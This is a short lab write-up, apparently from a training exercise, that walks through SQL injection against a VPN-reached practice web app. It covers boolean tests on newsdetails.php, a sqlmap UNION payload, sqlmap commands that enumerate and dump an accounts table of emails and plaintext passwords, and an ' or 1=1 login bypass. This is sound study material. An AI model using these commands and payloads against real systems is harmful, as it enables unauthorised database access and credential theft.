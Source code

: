 # SQL Injection 

> Makayla Ferrell | July 28th, 2021

### Steps 


1. Connect to VPN 
```
sudo openvpn <filename> 
```
2. Visit given target at 10.124.211.96. 

3. Find SQLi vulnerable spots
/newsdetails.php?id=16 
Test for '' gives Warning: mysqli_fetch_array() expects parameter 1 to be mysqli_result, boolean given in /var/www/newsdetails.php on line 29 
True Test: id=26 and 1=1; -- - (shows entry)
False Test: id=26 and 1=2; -- - (shows nothing)
Vulnerable to union select, running back-end DBMS MYSQL >= 5.0.12


SQLmap: Payload: id=1 UNION ALL SELECT CONCAT(0x7162786271,0x74514f534f425a59517164454c55447443785776424d59787379674c7a6a514f6b466e426c486e59,0x71766a7a71)-- - 

4. Use sql to find db information 
```
sqlmap -u http://10.124.211.96/newsdetails.php?id=1 --technique=U --users

```
User: 'awd'@'%'
```
sqlmap -u http://10.124.211.96/newsdetails.php?id=1 --technique=U --dbs 
```
[*] awd
[*] information_schema
```
sqlmap -u http://10.124.211.96/newsdetails.php?id=1 --technique=U -D awd --tables
```
[3 tables]
+----------+
| accounts |
| awards   |
| news     |
+----------+
```
sqlmap -u http://10.124.211.96/newsdetails.php?id=1 --technique=U -D awd -T accounts --dump
```

+----+-----------------------------------------------------+-------------+-------------------+
| id | email                                               | password    | displayname       |
+----+-----------------------------------------------------+-------------+-------------------+
| 1  | admin@awdmgmt.labs                                  | S3cr3tBOFH  | Admin             |
| 2  | porta.elit.a@adipiscingMaurismolestie.net           | VUH74DYX6DO | Mallory Reed      |
| 3  | ipsum.leo.elementum@Phasellusfermentumconvallis.org | GUC97VHY8HK | Katell Stewart    |
| 4  | mauris.sit@torquent.edu                             | LPW27DSG6QE | Gemma Beck        |
| 5  | Praesent.interdum@ametrisus.org                     | TWS34ORL6GX | Fuller Casey      |
| 6  | Quisque.libero@Cum.ca                               | OSQ80TYZ6YW | Hu Miles          |
| 7  | tincidunt.Donec.vitae@tempuseuligula.com            | HOV82DUI9TF | Lacey Hawkins     |
| 8  | dignissim.Maecenas@estcongue.org                    | TEO38KNA2UZ | Kaden Singleton   |
| 9  | dictum@tempusrisusDonec.ca                          | LKK51JAO3PJ | Britanney Guzman  |
| 10 | blandit.viverra.Donec@Suspendisse.net               | PTS90MHF9XA | Aspen Byers       |
| 11 | ligula@mollisDuis.ca                                | PLN49WZU6IB | Alexandra Cabrera |
+----+-----------------------------------------------------+-------------+-------------------+

4. Sign in with credential from account table. 
admin@awdmgmt.labs:S3cr3tBOFH 

5. Login without credentials 
Use ' or 1=1; -- - in Email block to login 


